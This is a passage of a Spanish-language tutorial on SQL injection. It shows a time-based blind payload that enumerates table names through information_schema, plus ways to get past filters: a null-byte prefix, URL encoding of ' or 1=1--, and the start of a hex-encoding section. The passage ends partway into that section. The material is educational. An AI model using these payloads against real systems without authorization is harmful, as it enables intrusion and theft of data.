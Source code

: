 Con las boolean-based y las time-based tambien podemos enumerar tablas y columnas usando la base de datos ```ìnformation_schema```, como por ejemplo de esta forma:

```sql
' AND IF(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema="waifus" LIMIT 0,1),1,1)="b",sleep(5),1)-- -
```

Donde esta comparando si la primera letra de la primera tabla de la base de datos ```waifus``` es igual a ```b```, y si es TRUE, entonces el servidor tarda 5 segundos en responder.

Y por ultimo, en las boolean-based y time-based se ocupan scritps para hacer mas rapido el proceso.

Si quieres leer mas de las time-based puedes leer [aqui](https://sec-art.net/2021/12/30/time-based-sql-injection-explained-sql-injection-series-web-security/)


## Bypass filters SQL injection 

### null-bytes

Puede ser que en la consulta se esten bloquendo ciertos caracteres en la consulta de SQL, una forma es usando ```null-byte```, basicamente poner ```%00``` por delante de el caracter que es este bloquendo:

```sql
%00' or 1=1--
```

### URL encode

Los caracteres no validos en las URL deben de convertirse a ASCII validos para que las URL los puedan interpretar, por ejemplo:

```sql
' or 1=1--
```
En URL encode es:
```
%27%20or%201%3D1--
```

Para codificarlos pueden usar [URL encode](https://www.urlencoder.org/)

### Hex encoding

Con la codifcacion hexadecimal va a remplazar los caracteres originales con su valor en hexadecimal

Normal:

```sql
MariaDB [test]> SELECT anime FROM waifus WHERE nombre = "Miwa Yamamura";
+-----------+
| anime     |
+-----------+
| Barakamon |
+-----------+
1 row in set (0.001 sec)
```
